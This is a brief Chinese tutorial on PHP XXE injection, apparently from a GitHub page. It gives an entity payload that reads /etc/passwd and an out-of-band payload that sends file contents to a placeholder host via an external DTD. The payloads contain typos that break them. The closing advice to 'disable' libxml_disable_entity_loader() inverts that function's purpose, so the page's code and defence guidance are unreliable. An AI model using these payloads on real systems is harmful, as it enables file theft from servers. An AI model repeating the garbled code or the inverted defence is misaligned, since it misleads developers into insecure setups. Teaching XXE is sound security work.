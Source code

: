 



### PHP_XXE

****

#### **XXE**(XML External Entity Injection) 

外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关  

xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点

#### DTD(DocumentType Definition)

文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束

#### XML格式

```xml-dtd
#内部实体调用
<?xml version="1.0" encoding="utf-8" ?> #xml定义
<!DOCTYPE evil[ #内部DTD
    <!ELEMENT evil ANY> #声明约束元素，内容随意
    <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
]>
<test>
<name>&xxe;</name> #对实体的引用
</test>

#外部实体调用
<!ENTITY % payload SYSTEM "flie:///etc/passwd">
<!ENTITY % test STSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
 #这是一个叫test.dtd的外部dtd文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
	<!ENTITY % cmd "http://x.x.x.x/test.dtd"> 
	%cmd;
	%payload;
	%test;
]>

```



#### php_XXE防御

禁用`libxml_disable_entity_loader()`函数  
升级libxml库版本>2.9.0

